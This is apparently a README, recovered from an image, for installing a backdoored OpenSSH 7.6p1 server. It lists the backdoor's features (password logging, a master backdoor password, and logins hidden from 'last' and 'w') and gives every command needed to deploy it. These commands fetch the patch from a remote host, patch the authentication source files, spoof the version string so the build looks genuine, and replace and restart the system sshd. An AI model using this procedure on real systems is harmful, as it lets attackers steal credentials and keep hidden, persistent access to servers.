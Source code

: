 1. password logging
2. logon using a backdoor password
3. logon through the patched sshd results in nothing in output from `last` and `w`

#### donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#### copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#### Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#### Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#### Install required library   
centos:
`yum -y install zlib-devel openssl-devel pam-devel`

ubuntu:
`apt-get install libssl1.0-dev zlib1g-dev libkrb5-dev libpam-dev`
#### run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#### add backdoor.o to Makefile  
``` 
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   
```

#### compile and install   
make   
make install   

#### restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#### view.c show the password record   

